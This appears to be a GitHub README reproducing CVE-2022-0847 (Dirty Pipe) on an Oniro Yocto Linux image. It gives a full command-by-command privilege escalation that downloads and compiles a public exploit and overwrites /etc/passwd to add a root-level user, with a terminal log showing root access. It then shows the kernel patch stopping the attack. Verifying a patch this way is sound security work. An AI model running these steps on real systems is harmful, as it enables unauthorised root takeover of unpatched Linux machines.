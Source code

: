 ## CVE-2022-0847

### Description
[Link to the CVE](https://nvd.nist.gov/vuln/detail/CVE-2022-0847)
> A flaw was found in the way the "flags" member of the new pipe buffer structure was lacking proper initialization in copy_page_to_iter_pipe and push_pipe functions in the Linux kernel and could thus contain stale values. An unprivileged local user could use this flaw to write to pages in the page cache backed by read only files and as such escalate their privileges on the system.


### Proof of concept
In order to be able to use gcc on the oniro image add the following line to local.conf (I've also added the curl package, but that's not necessary for the exploit):

`IMAGE_INSTALL:append = " packagegroup-core-buildessential"`

On the oniro image:
- get the c code for the exploit

`curl https://dl.packetstormsecurity.net/2203-exploits/write_anything.c -o write_anything.c`

- compile it with gcc

`sudo gcc write_anything.c -o write_anything`

- change the ownership of the file (since we want to demonstrate a privilege escalation), and make it executable

```
sudo chown oniro write_anything
sudo chgrp oniro write_anything
chmod +x write_anything
```

- get the length of the first line of the `/etc/passwd` file (the offset for the exploit)

`head -n 1 /etc/passwd | wc`
Output:`         1         1        35`

- generate an hashed password (not in the oniro image)

`openssl passwd -6 password`
Output:`$6$sXnVH61ypXBVNMA/$OQlJXk2orRMHXya8GfVtdM42ZsislfQnKRaTW1V90TiE6VUGUbvuttAX4PmnU3zfe9QBHOp9H6EQMXoaqqD9x0`

- write an /etc/passwd entry for our new user:

`alemar:$6$sXnVH61ypXBVNMA/$OQlJXk2orRMHXya8GfVtdM42ZsislfQnKRaTW1V90TiE6VUGUbvuttAX4PmnU3zfe9QBHOp9H6EQMXoaqqD9x0:0:0:root:/root:/bin/sh`

- exploit!

```
./write_anything /etc/passwd 35 $'alemar:$6$sXnVH61ypXBVNMA/$OQlJXk2orRMHXya8GfVtdM42ZsislfQnKRaTW1V90TiE6VUGUbvuttAX4PmnU3zfe9QBHOp9H6EQMXoaqqD9x0:0:0:root:/root:/bin/sh\n'
```

- Now to take root privileges, just change user and type in the password you generated with openssl

```
su alemar
```

Result:
```
oniro@oniro-linux-qemux86-64:~$ ./write_anything /etc/passwd 35 $'alemar:$6$sXnVH61ypXBVNMA/$OQlJXk2orRMHXya8GfVtdM42ZsislfQnKRaTW1V90TiE6VUGUbvuttAX4PmnU3zfe9QBHOp9H6EQMXoaqqD9x0:0:0:root:/root:/bin/sh\n'
It worked!
oniro@oniro-linux-qemux86-64:~$ head /etc/passwd
root:x:0:0:root:/home/root:/bin/sh
alemar:$6$sXnVH61ypXBVNMA/$OQlJXk2orRMHXya8GfVtdM42ZsislfQnKRaTW1V90TiE6VUGUbvuttAX4PmnU3zfe9QBHOp9H6EQMXoaqqD9x0:0:0:root:/root:/bin/sh
nn/sync
games:x:5:60:games:/usr/games:/sbin/nologin
man:x:6:12:man:/var/cache/man:/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/sbin/nologin
mail:x:8:8:mail:/var/mail:/sbin/nologin
news:x:9:9:news:/var/spool/news:/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/sbin/nologin
proxy:x:13:13:proxy:/bin:/sbin/nologin
oniro@oniro-linux-qemux86-64:~$ su alemar
Password: 
root@oniro-linux-qemux86-64:/home/oniro# id
uid=0(root) gid=0(root) groups=0(root)
root@oniro-linux-qemux86-64:/home/oniro# whoami
root
```

### Patch

The patch for this vulnerability was introduced in this [commit](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/lib/iov_iter.c?id=9d2231c5d74e13b2a0546fee6737ee4446017903).

The patch can be found in the folder `meta-patchlayer` in the root of this repository.

In order to patch the kernel I've followed the [steps](https://docs.yoctoproject.org/kernel-dev/common.html#using-devtool-to-patch-the-kernel) in the Yocto documentation, using the `devtool` command.


Output of the exploit after patch:

```
oniro@oniro-linux-qemux86-64:~$ ./write_anything /etc/passwd 35 $'alemar:$6$sXnVH61ypXBVNMA/$OQlJXk2orRMHXya8GfVtdM42ZsislfQnKRaTW1V90TiE6VUGUbvuttAX4PmnU3zfe9QBHOp9H6EQMXoaqqD9x0:0:0:root:/root:/bin/sh\n'
It worked!
oniro@oniro-linux-qemux86-64:~$ cat /etc/passwd 
root:x:0:0:root:/home/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/sbin/nologin
bin:x:2:2:bin:/bin:/sbin/nologin
sys:x:3:3:sys:/dev:/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/sbin/nologin
man:x:6:12:man:/var/cache/man:/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/sbin/nologin
mail:x:8:8:mail:/var/mail:/sbin/nologin
news:x:9:9:news:/var/spool/news:/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/sbin/nologin
proxy:x:13:13:proxy:/bin:/sbin/nologin
www-data:x:33:33:www-data:/var/www:/sbin/nologin
backup:x:34:34:backup:/var/backups:/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/sbin/nologin
rauc-hawkbit:x:994:993::/:/bin/false
systemd-timesync:x:995:994::/:/sbin/nologin
systemd-resolve:x:996:995::/:/sbin/nologin
systemd-bus-proxy:x:997:997::/:/sbin/nologin
avahi:x:998:998::/run/avahi-daemon:/bin/false
messagebus:x:999:999::/var/lib/dbus:/bin/false
oniro:x:1000:1000::/home/oniro:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/sbin/nologin
oniro@oniro-linux-qemux86-64:~$ 
``` 

Even if the executable says "It worked", it actually didn't change anything in the /etc/passwd file. 
